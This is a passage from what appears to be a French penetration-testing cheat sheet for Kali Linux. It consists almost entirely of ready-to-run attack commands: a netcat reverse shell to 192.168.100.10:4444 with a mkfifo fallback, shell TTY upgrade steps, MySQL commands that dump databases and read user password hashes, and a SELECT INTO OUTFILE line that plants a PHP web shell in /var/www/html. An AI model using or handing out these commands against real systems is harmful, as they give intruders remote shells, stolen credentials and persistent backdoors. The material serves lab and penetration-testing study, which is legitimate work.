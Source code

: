 ### Netcat Reverse Shell

```bash
# Sur Kali
nc -lvnp 4444

# Sur la cible
nc -e /bin/bash 192.168.100.10 4444

# Si -e n'est pas disponible
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.100.10 4444 >/tmp/f
```

### Shell Upgrade (TTY)

```bash
# Python TTY
python -c 'import pty; pty.spawn("/bin/bash")'

# Ctrl+Z (background)
# Sur Kali
stty raw -echo; fg

# Sur le shell
export TERM=xterm
export SHELL=/bin/bash
```

---

## 🗄️ Bases de Données

### MySQL

```bash
# Se connecter
mysql -u root -p
mysql -u root -h 192.168.100.20

# Commandes MySQL
SHOW DATABASES;
USE database_name;
SHOW TABLES;
SELECT * FROM users;
SELECT user, password FROM mysql.user;

# Dump d'une base
mysqldump -u root -p database_name > dump.sql

# Exécuter des commandes système
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php';
```
